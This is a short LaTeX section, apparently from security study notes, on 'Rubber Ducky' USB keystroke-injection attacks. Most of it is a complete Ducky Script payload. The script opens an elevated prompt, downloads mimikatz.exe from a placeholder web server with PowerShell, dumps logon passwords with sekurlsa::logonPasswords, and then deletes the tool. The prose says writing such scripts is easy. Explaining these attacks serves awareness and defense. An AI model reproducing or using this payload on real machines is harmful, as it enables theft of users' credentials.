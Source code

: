 \section{"Rubber Ducky" mallicious USB devices attack}
A "Rubber Ducky" attack is neither a client or server side attack and instead is a physical attack that preys on either a person's curiosity or a person's lack of knowledge. The basis for the attack is either an infected USB thumbdrive or a specifically created USB drive. 

\subsection{Designed devices}
There are commercially created devices that are used to execute this type of attack. A common one is the Hakshop USB Rubber Ducky. It is created to make writing the attack as simple as possible so the barrier of entry is lowered. They also have a github repository that has premade attacks (https://github.com/hak5darren/USB-Rubber-Ducky). \\
\\
\begin{verbatim}
REM mimikatz ducky script to dump local wdigest passwords from memory using mimikatz (local user needs to be an administrator/have admin privs)
DELAY 3000
CONTROL ESCAPE
DELAY 1000
STRING cmd
DELAY 1000
CTRL-SHIFT ENTER
DELAY 1000
ALT y
DELAY 300
ENTER
STRING powershell (new-object System.Net.WebClient).DownloadFile('http://<replace me with webserver ip/host>/mimikatz.exe','%TEMP%\mimikatz.exe')
DELAY 300
ENTER
DELAY 3000
STRING %TEMP%\mimikatz.exe
DELAY 300
ENTER
DELAY 3000
STRING privilege::debug
DELAY 300
ENTER
DELAY 1000
STRING sekurlsa::logonPasswords full
DELAY 300
ENTER
DELAY 1000
STRING exit
DELAY 300
ENTER
DELAY 100
STRING del %TEMP%\mimikatz.exe
DELAY 300
ENTER
\end{verbatim}
This attack is from the payload wiki that is created for the hakshop device. It uses mimikatz and the elevated privages of a user to dump their passwords from digest. The nice thing about these devices is that writing custom scripts for it is easy and it just requires the user to know what keystrokes they want to simulate\\
\\

